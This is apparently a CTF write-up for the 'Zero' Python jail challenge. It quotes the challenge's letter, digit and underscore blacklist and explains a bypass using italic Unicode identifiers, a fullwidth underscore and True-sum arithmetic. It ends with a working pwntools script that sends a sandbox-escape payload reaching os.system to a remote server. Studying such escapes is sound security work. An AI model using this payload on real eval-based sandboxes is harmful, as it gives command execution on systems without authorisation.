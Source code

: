 # Zero
![challenge](challenge.png)
### Challenge:
##### Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping.
##### Author: SteakEnthusiast

##### Links: ```nc 35.222.133.12 5000```
##### Files: [zero.zip](zero.zip)

### Solution:

Banger challenge, my favourite from the ctf.

Looking at the source code we can pretty much see it's a standard pyjail with a very oppressive blacklist, our code also gets eval-ed without any builtins functions:

```py
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

We can bypass the character blacklist by using italics [https://lingojam.com/ItalicTextGenerator](https://lingojam.com/ItalicTextGenerator), same with the underscores we can use the unicode character ```＿``` (U+ff3f), the only thing we're missing is numbers.
Thankfully, we're inside an eval, i used this function to replace the use of numbers in my payload:

```py
def true(n):
    return (("(()==())+"*n)[:-1])
```

()==() evaluates to True, which in turn is 1, if we do True+True we get 2, see where i'm going?
I initially were using italic True instead of ()==() but for some reason it was messing up in remote while it worked fine in local so i just changed it.

Once we bypass the blacklist the only thing standing between us and the flag is the lack of builtins, thankfully we can use some well known payloads to get the flag, specifically i used one from [here](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38).

Putting it all together:
```py
from pwn import *

r = remote("35.222.133.12", 5000)

def true(n):
    return (("(()==())+"*n)[:-1])

# payload from https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters-no-double-underscores-no-builtins-no-quotesdouble-quotes-inside-eval--python38
payload = "[𝘺:=()._＿𝘥𝘰𝘤＿_, 𝘢:=𝘺["+true(19)+"],()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_["+true(1)+"]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()["+true(104)+"].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘺["+true(34)+"]+𝘢).𝘴𝘺𝘴𝘵𝘦𝘮(𝘢+𝘺["+true(56)+"])]"

r.sendline(payload)
r.interactive()
#uoftctf{zero_security_too_apparently_lmao}
```

Flag: ```uoftctf{zero_security_too_apparently_lmao}```